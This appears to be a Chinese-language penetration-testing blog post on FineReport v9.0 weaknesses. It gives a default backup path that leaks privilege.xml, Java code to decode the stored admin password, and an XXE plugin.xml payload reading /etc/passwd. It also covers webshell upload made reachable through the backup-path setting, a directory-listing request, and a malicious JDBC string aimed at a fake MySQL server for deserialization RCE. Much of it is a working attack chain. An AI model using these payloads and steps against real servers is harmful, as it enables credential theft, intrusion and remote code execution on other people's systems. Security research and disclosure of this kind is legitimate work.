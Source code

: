 ```yaml
---
layout: post
title: 帆软报表v9.0 Vulnerability
summary: 一次针对帆软v9.0系统的渗透发现的脆弱点
featured-img: fr
---
```


## TL; DR

网上公开的目前只有帆软v8.0部分漏洞，而v9.0中这几个漏洞已修（HW快开始了）

本文记录针对帆软v9.0渗透中发现的脆弱点

+ 前台备份文件泄露（默认路径）
+ 后台XXE
+ 后台GetShell
+ 后台任意jdbc串连接导致
  + 本地文件读取
  + 反序列化RCE

## 前台备份文件泄露

帆软v9.0提供了备份文件功能

默认情况下（官方示例https://help.finebi.com/finebi4.1/doc-view-517.html）的备份文件路径是：

```
path="${WEB_REPORT}/bakup"
```

存在以下几种备份（就是bakup，不是我笔误）：

```
all_bakup  
config_bakup  jar_bakup  log_bakup
plugins_bakup  reportlets_bakup  update_bakup
```

备份内部的路径为

```
autobackup/YYYY.MM.DD<space>HH.MinMin.SS
manualbackup/<NAME(default is timestamp)>
```

我所遇目标系统privilege.xml路径：

```
http://IP/WebReport/bakup/config_bakup/autobackup/2020.04.07%2018.10.10/resources/privilege.xml
```

privilege.xml中存放了编码后的admin密码，反编译jar可知编码算法

```java
// fr-core-9.0.jar/com/fr/stable/CommonCodeUtils.java
public class Main {
    private static final int[] PASSWORD_MASK_ARRAY = {19, 78, 10, 15, 100, 213, 43, 23};

    public static String passwordDecode(String paramString) {
        if (paramString != null && paramString.startsWith("___")) {
            paramString = paramString.substring(3);
            StringBuilder stringBuilder = new StringBuilder();
            byte b1 = 0;
            for (byte b2 = 0; b2 <= paramString.length() - 4; b2 += 4) {
                if (b1 == PASSWORD_MASK_ARRAY.length)
                    b1 = 0;
                String str = paramString.substring(b2, b2 + 4);
                int i = Integer.parseInt(str, 16) ^ PASSWORD_MASK_ARRAY[b1];
                stringBuilder.append((char)i);
                b1++;
            }
            paramString = stringBuilder.toString();
        }
        return paramString;
    }

    public static void main(String[] args) {
        String pwd = "___0022...";
        System.out.println(passwordDecode(pwd));
    }
}

```

## 后台XXE

后台有上传插件功能，上传文件为zip格式，插件元信息放在压缩包的plugin.xml中

将WebShell和plugin.xml压缩后上传，FineReport在解析plugin.xml时存在XXE

至于源码我就不打算分析了，感兴趣可以自己反编译看一下，教科书式的XXE写法。可能是因为在后台，一直没有人提出

两种利用：

+ 读文件，但XXE回显在插件管理栏时有字数限制，可FTP OOB。而且Java的XXE是可以列目录的，但其实后台有列目录接口，后面讲
+ SSRF，Windows下低版本JDK默认会启用NTLM鉴权，可以破解hash或hash relay

plugin.xml示例：

```xml
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<!DOCTYPE a [ <!ENTITY b SYSTEM "file:///etc/passwd"> ]>
<plugin>
    <id>EVIL</id>
    <name>&b;</name>
    <active>yes</active>
    <version>0.0.1</version>
    <env-version>8.0</env-version>
    <vendor>finereport.wei</vendor>   
    <jartime>2017-11-08</jartime>
    <description>&b;</description>
    <extra-report>
        <ActorProvider class="com.fr.wei.plugin.h5reportnew.server.report.Html5PageActorProvider"/>
    </extra-report>
    <extra-platform>
        <PlateProvider class="com.fr.wei.plugin.h5reportnew.server.fs.Html5ManagementPlateProvider"/>
    </extra-platform>
</plugin>

```

## 后台GetShell

压缩包中的WebShell解压后会放在

```
WEB-INF/plugins/plugin-EVIL-[VERSION]
```

结合手动备份功能，将其备份到WEB目录下

即可访问

```
http://IP/WebReport/bakup/plugins_bakup/manualbackup/EVIL/plugins/plugin-EVIL-0.0.1/1.jsp
```

假如备份文件路径不在WEB目录下，其实后台给了设置备份文件存储路径的功能，可以将WebShell转到可访问目录中

```
智能运维 -> 备份还原 -> 设置 -> 备份路径
```

而这里在选择备份路径时，是有列目录功能的

```
POST
/WebReport/ReportServer?op=fs_bakrestore&cmd=folder_tree

serverID=&optype=get_nodes&parentID=/root&layer=1
```

结合列目录功能，某些操作也会更加容易

## 任意JDBC串连接

数据库操作可导致反序列化，文章：

https://mp.weixin.qq.com/s?__biz=MzA5ODA0NDE2MA==&mid=2649721398&idx=3&sn=ffc2b37268b51b61ed4edba5683cd5b5&chksm=888cba59bffb334fabaf35ffb588d7f0d9ed2d4959d7bfd3d4fa137821a23b7b525c2b1a33b3&mpshare=1&scene=23&srcid=&sharer_sharetime=1587033454342&sharer_shareid=04fc381b7838be4b14d617ae0623e947#rd

目标系统是`mysql-connector-java-5.1.6-bin.jar`，在文章所说的可攻击范围内

攻击需要结合本地gadgets，反编译`fr-third-9.0.jar`发现存在`springframework`，但spring版本不合，反编译后发现没有`springframework.beans.factory.support.AutowireUtils`和`springframework.core.SerializableTypeWrapper`

而且目标是JDK8u242，就算spring是漏洞版本也无法攻击

利用:

将`fr-third-9.0.jar`导入本地mvn仓库

```
mvn install:install-file -Dfile='fr-third-9.0.jar' -DgroupId='com.fr.third' -DartifactId='fr-third' -Dversion='9.0' -Dpackaging=jar
```

将gadget的package的导入的路径修改为`com.fr.third.xxx`，修改pom.xml加入`fr-third dependency`后重新编译

服务端`Fake_MySQL_`Server监听，后台修改JDBC串为

```
jdbc:mysql://IP:3306/db?autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_Spring1_CMD
```

修改后随意触发一处查询即可RCE
